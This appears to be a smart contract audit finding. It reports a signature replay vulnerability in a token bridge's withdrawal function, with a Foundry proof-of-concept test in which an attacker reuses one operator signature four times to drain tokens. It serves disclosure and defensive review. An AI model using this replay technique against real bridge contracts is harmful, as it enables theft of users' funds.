 ## Summary
The `sendToL1` and `withdrawTokensToL1` function in the `L1BossBridge` smart contract is susceptible to replay attacks due to the absence of a nonce verification mechanism. The attacker can exploit this vulnerability to repeatedly withdraw tokens using the same signature, leading to potential financial losses.

## Vulnerability Details
The `sendToL1` and `withdrawTokensToL1` function allows for the withdrawal of tokens from `L2` to `L1` based on a provided signature. However, the lack of nonce verification exposes the contract to replay attacks. The proof of concept illustrates how an attacker, having successfully withdrawn tokens once, can reuse the same valid signature to execute the function multiple times. This results in the unauthorized withdrawal of tokens, as the contract does not validate whether the same signature has been used before.

## Proof of Concept
```
function testMultyCallWithSameSignature() public {
        uint256 depositAmount = 10e18;
        uint256 withdrawAmount = 1e18;

        // User deposit tokens on L1
        vm.startPrank(user);
        token.approve(address(tokenBridge), depositAmount);
        tokenBridge.depositTokensToL2(user, userInL2, depositAmount);
        vm.stopPrank();

        // Operator sing the message to withdraw tokens
        bytes memory message = _getTokenWithdrawalMessage(hacker, withdrawAmount);
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        // Hacker can withdraw tokens multiple times with the same signature
        vm.startPrank(hacker);
        tokenBridge.withdrawTokensToL1(hacker, withdrawAmount, v, r, s);
        tokenBridge.withdrawTokensToL1(hacker, withdrawAmount, v, r, s);
        tokenBridge.withdrawTokensToL1(hacker, withdrawAmount, v, r, s);
        tokenBridge.withdrawTokensToL1(hacker, withdrawAmount, v, r, s);
        vm.startPrank(hacker);

        assertEq(token.balanceOf(hacker), (withdrawAmount * 4));
}
```
## Impact
The impact of this vulnerability is severe, as it allows an attacker to repeatedly execute token withdrawals with the same signature, potentially draining the contract's token balance and causing financial harm.

## Tools Used
- Manual review
- Foundry
